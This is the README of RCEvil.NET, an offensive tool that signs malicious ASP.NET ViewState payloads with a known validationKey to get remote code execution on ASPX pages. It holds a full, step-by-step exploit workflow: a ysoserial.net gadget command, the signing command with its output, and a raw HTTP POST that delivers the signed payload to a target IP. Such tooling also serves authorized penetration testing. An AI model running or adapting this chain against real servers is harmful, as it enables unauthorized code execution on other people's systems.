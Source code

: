 RCEvil.NET
===

RCEvil.NET is a tool for signing malicious ViewStates with a known validationKey. Any (even empty) ASPX page is a valid target. See http://illuminopi.com/ for full details on the attack vector.

### Prerequisites

1. Visual Studio Community
   * https://visualstudio.microsoft.com/vs/community/
2. Local installation of ysoserial.net:
   * https://github.com/pwntester/ysoserial.net

### Usage

1. Build your payload in ysoserial.net: 

```
ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe"
```

2. Sign the payload using RCEvil.NET: 

```
RCEvil.NET.exe -u [URL] -v [VALIDATION_KEY] -m [DIGEST_TYPE] -p [YSOSERIAL.NET_PAYLOAD]
```

3. Direct the payload to the target ASPX page

### Examples

Generate base payload in ysoserial.net:
```
ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe" /wEyxBEAAQAAAP////8...
```

Sign ysoserial.net payload with an HMAC using RCEvil.NET:

```
RCEvil.NET.exe -u /Default.aspx -v 000102030405060708090a0b0c0d0e0f10111213 -m SHA1 -p /wEyxBEAAQAAAP////8...

 -=[ ViewState Toolset ]=-

 URL: /Default.aspx  
 Digest Algorithm: SHA1  
 ValidationKey: 000102030405060708090a0b0c0d0e0f10111213  
 Modifier: 34030bca

 -=[ Final Payload ]=-

 %2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
```
Finally, send the HMAC-signed ViewState payload to the target:
```
 POST /Default.aspx HTTP/1.1  
 Host: 192.168.112.148  
 Content-Type: application/x-www-form-urlencoded  
 Content-Length: 3072

 __VIEWSTATE=%2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
```
